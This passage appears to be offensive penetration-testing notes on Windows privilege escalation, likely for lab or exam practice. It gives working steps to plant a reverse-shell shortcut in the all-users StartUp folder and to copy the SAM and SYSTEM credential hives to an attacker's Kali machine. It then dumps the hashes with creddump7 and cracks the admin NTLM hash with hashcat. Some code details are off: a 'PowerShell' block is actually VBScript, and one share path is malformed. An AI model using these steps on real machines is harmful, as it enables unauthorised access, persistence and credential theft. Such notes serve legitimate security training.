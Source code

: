 > Each user can define apps that start when they log in, by placing shortcuts to them in a specific directory. Windows also has a startup directory for apps that should start for all users: `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` If we can create files in this directory, we can use our reverse shell executable and escalate privileges when an admin logs in.


Check if we have permissions, if BUILTIN\Users have write access, then we can become root

```powershell
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"

or

icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Powershell script to create a startup executable

```powershell
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

Now we need for the admin to login into the account


### DLL Hijacking


We can use procmon from systernals to find missing dlls

In case you found something, go to https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/dll-hijacking to continue the exploit.

### Security Account Manager Passwords

Transfer the SAM and SYSTEM files to your Kali VM:

`copy C:\Windows\Repair\SAM \ip\kali\`
`copy C:\Windows\Repair\SYSTEM \ip\kali\`

On Kali, clone the creddump7 repository (the one on Kali is outdated and will not dump hashes correctly for Windows 10!) and use it to dump out the hashes from the SAM and SYSTEM files:

`git clone https://github.com/Neohapsis/creddump7.git`
`sudo apt install python-crypto`
`python2 creddump7/pwdump.py SYSTEM SAM`

Crack the admin NTLM hash using hashcat:

`hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt`

## Lateral movement
